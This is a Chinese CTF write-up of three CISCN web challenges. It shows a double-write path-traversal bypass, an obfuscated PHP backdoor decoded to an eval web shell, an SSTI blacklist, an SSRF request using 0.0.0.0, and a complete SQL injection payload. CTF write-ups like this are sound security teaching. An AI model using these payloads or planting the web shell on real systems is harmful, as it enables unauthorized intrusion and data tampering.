








# 第十八届信息安全大赛 && 第二届长城杯 - WEB WP-先知社区

> **来源**: https://xz.aliyun.com/news/16187  
> **文章ID**: 16187

---

# CISCN - WEB WP

## hello\_web



查看源码发现存在tips.php和hackme.php，根据路由提示尝试文件读取

```
http://ip/index.php?file=xxx
```

读取之后发现有waf，这里可以双写绕过，即

```
http://ip/index.php?file=..././hackme.php
```

发包后即可得到一个混淆的php脚本



```
<?php
highlight_file(__FILE__);
$lJbGIY="eQOLlCmTYhVJUnRAobPSvjrFzWZycHXfdaukqGgwNptIBKiDsxME";$OlWYMv="zqBZkOuwUaTKFXRfLgmvchbipYdNyAGsIWVEQnxjDPoHStCMJrel";$lapUCm=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$YwzIst=$lapUCm{3}.$lapUCm{6}.$lapUCm{33}.$lapUCm{30};$OxirhK=$lapUCm{33}.$lapUCm{10}.$lapUCm{24}.$lapUCm{10}.$lapUCm{24};$YpAUWC=$OxirhK{0}.$lapUCm{18}.$lapUCm{3}.$OxirhK{0}.$OxirhK{1}.$lapUCm{24};$rVkKjU=$lapUCm{7}.$lapUCm{13};$YwzIst.=$lapUCm{22}.$lapUCm{36}.$lapUCm{29}.$lapUCm{26}.$lapUCm{30}.$lapUCm{32}.$lapUCm{35}.$lapUCm{26}.$lapUCm{30};eval($YwzIst("JHVXY2RhQT0iZVFPTGxDbVRZaFZKVW5SQW9iUFN2anJGeldaeWNIWGZkYXVrcUdnd05wdElCS2lEc3hNRXpxQlprT3V3VWFUS0ZYUmZMZ212Y2hiaXBZZE55QUdzSVdWRVFueGpEUG9IU3RDTUpyZWxtTTlqV0FmeHFuVDJVWWpMS2k5cXcxREZZTkloZ1lSc0RoVVZCd0VYR3ZFN0hNOCtPeD09IjtldmFsKCc/PicuJFl3eklzdCgkT3hpcmhLKCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVKjIpLCRZcEFVV0MoJHVXY2RhQSwkclZrS2pVLCRyVmtLalUpLCRZcEFVV0MoJHVXY2RhQSwwLCRyVmtLalUpKSkpOw=="));
?>

```

手动输出分析即可得到具体执行的内容

```
echo($YwzIst($OxirhK($YpAUWC($uWcdaA,$rVkKjU*2),$YpAUWC($uWcdaA,$rVkKjU,$rVkKjU),$YpAUWC($uWcdaA,0,$rVkKjU))));

```

结果为

```
PD9waHAgQGV2YWwoJF9QT1NUWydjbWRfNjYuOTknXSk7ID8+Cg==
```

解码得到

```
<?php @eval($_POST['cmd_66.99']); ?>

```



连接蚁剑，但是发现有disable\_function，尝试插件绕过



利用find命令查找flag



## Safe\_Proxy

源码如下

```
from flask import Flask, request, render_template_string
import socket
import threading
import html

app = Flask(__name__)

@app.route('/', methods=["GET"])
def source():
    with open(__file__, 'r', encoding='utf-8') as f:
        return '<pre>'+html.escape(f.read())+'</pre>'

@app.route('/', methods=["POST"])
def template():
    template_code = request.form.get("code")
    # 安全过滤
    blacklist = ['__', 'import', 'os', 'sys', 'eval', 'subprocess', 'popen', 'system', '\r', '\n']
    for black in blacklist:
        if black in template_code:
            return "Forbidden content detected!"
    result = render_template_string(template_code)
    print(result)
    return 'ok' if result is not None else 'error'

class HTTPProxyHandler:
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

    def handle_request(self, client_socket):
        try:
            request_data = b""
            while True:
                chunk = client_socket.recv(4096)
                request_data += chunk
                if len(chunk) < 4096:
                    break

            if not request_data:
                client_socket.close()
                return

            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as proxy_socket:
                proxy_socket.connect((self.target_host, self.target_port))
                proxy_socket.sendall(request_data)

                response_data = b""
                while True:
                    chunk = proxy_socket.recv(4096)
                    if not chunk:
                        break
                    response_data += chunk

            header_end = response_data.rfind(b"\r\n\r\n")
            if header_end != -1:
                body = response_data[header_end + 4:]
            else:
                body = response_data

            response_body = body
            response = b"HTTP/1.1 200 OK\r\n" \
                       b"Content-Length: " + str(len(response_body)).encode() + b"\r\n" \
                       b"Content-Type: text/html; charset=utf-8\r\n" \
                       b"\r\n" + response_body

            client_socket.sendall(response)
        except Exception as e:
            print(f"Proxy Error: {e}")
        finally:
            client_socket.close()

def start_proxy_server(host, port, target_host, target_port):
    proxy_handler = HTTPProxyHandler(target_host, target_port)
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind((host, port))
    server_socket.listen(100)
    print(f"Proxy server is running on {host}:{port} and forwarding to {target_host}:{target_port}...")

    try:
        while True:
            client_socket, addr = server_socket.accept()
            print(f"Connection from {addr}")
            thread = threading.Thread(target=proxy_handler.handle_request, args=(client_socket,))
            thread.daemon = True
            thread.start()
    except KeyboardInterrupt:
        print("Shutting down proxy server...")
    finally:
        server_socket.close()

def run_flask_app():
    app.run(debug=False, host='127.0.0.1', port=5000)

if __name__ == "__main__":
    proxy_host = "0.0.0.0"
    proxy_port = 5001
    target_host = "127.0.0.1"
    target_port = 5000

    # 安全反代，防止针对响应头的攻击
    proxy_thread = threading.Thread(target=start_proxy_server, args=(proxy_host, proxy_port, target_host, target_port))
    proxy_thread.daemon = True
    proxy_thread.start()

    print("Starting Flask app...")
    run_flask_app()

```

写了一堆不相干的东西，我们只需要关注下面这段代码即可

```
@app.route('/', methods=["POST"])
def template():
    template_code = request.form.get("code")
    # 安全过滤
    blacklist = ['__', 'import', 'os', 'sys', 'eval', 'subprocess', 'popen', 'system', '\r', '\n']
    for black in blacklist:
        if black in template_code:
            return "Forbidden content detected!"
    result = render_template_string(template_code)
    print(result)
    return 'ok' if result is not None else 'error'

```

简单的waf，直接拼接绕过即可，题目不出网，写静态目录绕过即可

```
code=
```

访问static/a拿到执行结果



## sxweb2

去掉index可以得到一大堆路由



有一个flag.py的路由，访问发现403



还有个wget.py，猜测存在ssrf，利用0.0.0.0绕过127.0.0.1

```
cgi-bin/wget.py?url=http://0.0.0.0/cgi-bin/local/flag.py

```

得到提示要让所有的人都被签约，根据他提供的更新路由我们可以猜测出应该是存在sql注入的，要更新签约的值，进行测试后发现在city的位置'会出现无法回显的情况，猜测这个就是注入点，利用下面的payload进行注入

```
au_id=893-72-1158&au_lname=McBadden&au_fname=Heather&phone=707+448-4982&address=301+Putnam&city=aa',contract=1%20where%20au_id='893-72-1158'--+&state=CA&zip=95688
```

修改au\_id将所有的0都改成1，再访问flag.py即可拿到flag
